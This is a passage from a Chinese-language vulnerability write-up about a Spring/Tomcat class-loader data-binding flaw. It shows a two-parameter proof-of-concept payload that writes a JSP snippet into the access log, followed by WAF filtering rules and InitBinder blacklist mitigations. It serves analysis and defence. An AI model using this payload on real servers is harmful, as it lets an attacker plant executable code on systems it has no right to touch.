 因此数据包定义为：`%{%}t`，这样就可以向 log 文件中写入 `%` 了。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=3<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%7B%25%7Dtout.println(%22POC%20Test%22)%3B%25%7B%25%7Dt%3E<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302203197.png-water_print](assets/1699408077-0b1957b0092b713e1426fa67cc358859.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302203197.png-water_print")

查看文件：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302202352.png-water_print](assets/1699408077-d4779e03c3ea8c3c7064439a725e0a69.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302202352.png-water_print")

## [](#3-%E4%B8%B4%E6%97%B6%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88)3 临时修复方案

-   WAF 中对参数中出现的 `class.*`， `Class.*`，`*.class.*`， `*.Class.*` 字符串的规则过滤
-   全局搜索 `@InitBinder` 注解，判断方法体内是否有 dataBinder.setDisallowedFields 方法，如果有使用则在原来的黑名单中添加：
